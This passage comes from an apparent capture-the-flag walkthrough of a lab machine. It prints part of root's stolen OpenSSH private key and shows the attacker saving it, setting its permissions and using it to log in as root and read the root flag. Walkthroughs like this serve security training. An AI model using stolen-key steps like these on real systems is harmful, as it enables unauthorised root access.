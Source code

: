 ```
        JZI1vtYUKoNrmkI5WtvCC8bBvA4BglXPSrrj1pGP9QPVdUVyOc6QKSbfomyefO2HQqne6z
        y0N8QdAZ3dDzXfBlVfuPpdP8yqUnrVnzpL8U/gc1ljKcSEx262jXKHAG3mTTNKtooZAAAA
        wQDPMrdvvNWrmiF9CSfTnc5v3TQfEDFCUCmtCEpTIQHhIxpiv+mocHjaPiBRnuKRPDsf81
        ainyiXYooPZqUT2lBDtIdJbid6G7oLoVbx4xDJ7h+U70rpMb/tWRBuM51v9ZXAlVUz14o
        Kt+Rx9peAx7dEfTHNvfdauGJL6k3QyGo+90nQDripDIUPvE0sac1tFLrfvJHYHsYiS7hLM
        dFu1uEJvusaIbslVQqpAqgX5Ht75rd0BZytTC9Dx3b71YYSdoAAADBANMZ5ELPuRUDb0Gh
        mXSlMvZVJEvlBISUVNM2YC+6hxh2Mc/0Szh0060qZv9ub3DXCDXMrwR5o6mdKv/kshpaD4
        Ml+fjgTzmOo/kTaWpKWcHmSrlCiMi1YqWUM6k9OCfr7UTTd7/uqkiYfLdCJGoWkehGGxep
        lJpUUj34t0PD8eMFnlfV8oomTvruqx0wWp6EmiyT9zjs2vJ3zapp2HWuaSdv7s2aF3gibc
        z04JxGYCePRKTBy/kth9VFsAJ3eQezpwAAAMEAwaLVktNNw+sG/Erdgt1i9/vttCwVVhw9
        RaWN522KKCFg9W06leSBX7HyWL4a7r21aLhglXkeGEf3bH1V4nOE3f+5mU8S1bhleY5hP9
        6urLSMt27NdCStYBvTEzhB86nRJr9ezPmQuExZG7ixTfWrmmGeCXGZt7KIyaT5/VZ1W7Pl
        xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
        fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
        -----END OPENSSH PRIVATE KEY-----
```

Now that we have root's ssh key we just have to set the correct permissions on it, ssh into the machine and add the root flag to our collection.

```
$ vi root
$ chmod 600 root
$ ssh -i root root@10.129.252.221
The authenticity of host '10.129.252.221 (10.129.252.221)' can't be established.
ECDSA key fingerprint is SHA256:YNT38/psf6LrGXZJZYJVglUOKXjstxzWK5JJU7zzp3g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.252.221' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 08 Nov 2021 03:02:55 PM UTC

  System load:  0.07              Processes:             220
  Usage of /:   52.6% of 8.79GB   Users logged in:       0
  Memory usage: 18%               IPv4 address for eth0: 10.129.252.221
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct 26 16:35:01 2021 from 10.10.14.6
root@secret:~# wc -c /root/root.txt
33 /root/root.txt
```
